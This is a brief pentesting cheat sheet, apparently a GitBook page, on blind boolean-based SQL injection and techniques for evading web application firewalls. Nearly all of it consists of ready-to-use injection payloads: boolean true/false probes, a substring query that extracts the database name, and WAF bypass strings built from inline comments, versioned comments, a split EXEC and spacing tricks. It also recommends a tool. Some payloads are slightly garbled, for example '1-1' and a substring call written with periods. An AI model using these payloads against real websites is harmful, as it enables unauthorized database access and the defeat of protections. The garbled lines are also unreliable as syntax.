 # Blind Boolean based SQL & Evasion Techniques

## Blind Boolean based SQL

* 11' and 'N' = 'N TRUE
* 11' and 'N'= 'A False
* substring('Ahmed'.1.1)='A' => True

```
select substring(database(),1,1)='d'
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Evasion Techniques

* WAF
  * ' or 1-1 --+&#x20;
    * or 2>1
    * 'or 'hacktor'>'a'
  * '/\*!<mark style="color:red;">**12345**</mark>order\*/by 7#
  * url encode,hex etc..
  * EXEC('sele','ct')
  * "UNION       SELECT"
  * '/\*\***/or/\*\*/1/\*\*/=/\*\*/1/\*\*/**
  * **Hackbar => Cyberfox**
